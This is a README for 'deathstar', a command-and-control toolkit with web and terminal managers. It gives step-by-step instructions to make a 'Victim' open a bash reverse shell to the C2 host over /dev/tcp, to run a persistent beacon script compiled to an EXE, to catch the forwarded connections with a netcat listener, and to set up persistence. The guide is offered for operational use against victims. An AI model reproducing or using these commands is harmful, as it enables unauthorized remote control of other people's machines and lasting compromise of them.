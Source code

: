 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
  - `python3 deathstar-web.py`
2. Open link in web browser
  - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
  - Linux / MacOS
    - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - This will drop the moment the C2 server 'drops'

OR
    - This will continue to connect to the C2 server even after it 'drops'
    - `./stardestroyer.py &`
4. Start your listener 
  - `nc -nvlp 4444`
5. Forward the connection to your listener
  - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
  - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
  - `python3 deathstar-term.py`
2. Have Victim connect to C2
  - Linux / MacOS
    - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - This will drop the moment the C2 server 'drops'

OR
    - This will continue to connect to the C2 server even after it 'drops'
    - `./stardestroyer.py &`
3. Start your listener 
  - `nc -nvlp 4444`
4. Forward the connection to your listener
  - On the CLI, list the connections.
    - Select `2)` to forward.
    - Specify the `ID` of the `VICTIM` you'd like to forward.
    - Then, type the IP of your `LISTENING` device.
5.Catch the connection
  - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.

